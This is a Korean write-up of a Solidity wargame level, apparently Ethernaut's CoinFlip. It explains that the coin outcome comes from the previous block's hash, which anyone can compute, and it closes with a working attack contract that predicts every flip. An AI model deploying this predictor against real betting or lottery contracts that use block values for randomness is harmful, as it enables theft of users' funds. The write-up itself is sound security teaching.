


## 문제
### 지문
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip.
To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
Things that might help
See the "?" page above in the top right corner menu, section "Beyond the console"
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
## 배경지식
---
블록이란 블록체인에 저장되는 하나의 데이터 묶음이다. 하나의 블록 안에는 여러 트랜잭션이 들어갈 수 있다.
솔리디티에서는 EVM이 제공하는 내장 전역 변수로 현재 실행 중인 트랜잭션의 컨텍스트를 읽을 수 있다. 예를 들어 `block.number`는 현재 트랜잭션이 포함된 블록 번호이고, `msg.sender`는 현재 함수를 호출한 주소다.
한 트랜잭션 안에서는 같은 전역 변수가 같은 값을 가진다. 공격 컨트랙트가 먼저 `block.number`와 `blockhash`를 읽고, 같은 트랜잭션 안에서 문제 컨트랙트의 `flip`을 호출하면 둘은 같은 블록 컨텍스트를 보게 된다.
---
`blockhash(uint)`는 인자로 넣은 블록 번호의 해시값을 반환하는 내장 함수다. 이 문제에서는 다음처럼 현재 블록이 아니라 바로 이전 블록의 해시를 사용한다.
```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
```
현재 트랜잭션이 실행되는 시점에는 `block.number - 1` 블록이 이미 확정되어 있다. 따라서 이 값은 랜덤값이 아니라 누구나 같은 방식으로 계산할 수 있는 공개 값이다.
이런 값을 난수처럼 쓰면 안 된다. 컨트랙트 내부에서 계산 가능한 값은 공격 컨트랙트 내부에서도 똑같이 계산할 수 있기 때문이다.
---
`FACTOR`는 다음 값이다.
```solidity
57896044618658097711785492504343953926634992332820282019728792003956564819968
```
이 값은 $`2^{255}`$다. `blockValue`는 `uint256`이므로 가능한 범위가 $`0`$부터 $`2^{256}-1`$까지다. 따라서 $`blockValue / 2^{255}`$의 결과는 $`0`$ 또는 $`1`$만 나온다.
즉 문제 코드는 이전 블록 해시가 $`2^{255}`$보다 크거나 같으면 true, 작으면 false로 동전 면을 정하고 있다.
## 문제 코드 분석
---
먼저 승리 조건을 보자.
```solidity
uint256 public consecutiveWins;

constructor() {
    consecutiveWins = 0;
}
```
문제 목표는 `consecutiveWins`를 10까지 올리는 것이다. `consecutiveWins`는 `public`이라 외부에서 값을 확인할 수 있지만, 값을 직접 바꾸는 함수는 없다.
따라서 `flip`을 연속으로 맞혀야 한다. 한 번이라도 틀리면 아래 코드에서 다시 0으로 초기화된다.
```solidity
if (side == _guess) {
    consecutiveWins++;
    return true;
} else {
    consecutiveWins = 0;
    return false;
}
```
---
이제 동전 면이 어떻게 결정되는지 보자.
```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;
```
동전 면은 사용자의 입력과 무관하게 `blockhash(block.number - 1)`로 결정된다. 그런데 이전 블록 해시는 이미 공개되어 있으므로 공격자는 `side`를 미리 계산할 수 있다.
결국 문제 컨트랙트가 `side`를 계산하는 로직을 공격 컨트랙트에서도 똑같이 돌리면 된다. 계산된 `side`를 `_guess`로 넣어 `flip`을 호출하면 매번 같은 답을 제출하게 된다.
---
`lastHash` 체크도 봐야 한다.
```solidity
if (lastHash == blockValue) {
    revert();
}

lastHash = blockValue;
```
이 체크는 같은 이전 블록 해시로 여러 번 `flip`을 호출하지 못하게 막는다. 같은 블록 안에서 두 번 호출하면 `block.number - 1`이 같기 때문에 `blockValue`도 같고, 두 번째 호출은 revert된다.
그래서 한 트랜잭션에서 10번을 몰아서 호출하는 방식은 안 된다. 공격 컨트랙트의 `flipattack`을 블록이 바뀔 때마다 한 번씩 호출해야 한다. 이 과정을 10번 성공시키면 `consecutiveWins`가 10이 된다.
## 풀이
풀이는 단순하다. 문제 컨트랙트가 쓰는 계산식을 공격 컨트랙트 안에서도 그대로 실행해서 이번 호출에 넣을 `_guess`를 먼저 구한다.
공격 컨트랙트의 `flipattack`은 이전 블록 해시를 읽고 `FACTOR`로 나눠 `side`를 만든다. 그 다음 `coinflip.flip(side)`를 호출한다. 두 호출은 같은 트랜잭션 안에서 이어지므로, 문제 컨트랙트가 보는 `block.number - 1`도 공격 컨트랙트가 본 값과 같다.
`lastHash` 체크 때문에 같은 블록에서 반복 호출하면 revert된다. 따라서 `flipattack`을 한 블록에 한 번씩, 총 10번 호출하면 된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract attack {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    ICoinFlip coinflip;
    
    constructor(address addr) {
        coinflip=ICoinFlip(addr);
    }

    function flipattack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        
        if (lastHash == blockValue) {
            revert();
        }
        
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }
}
```


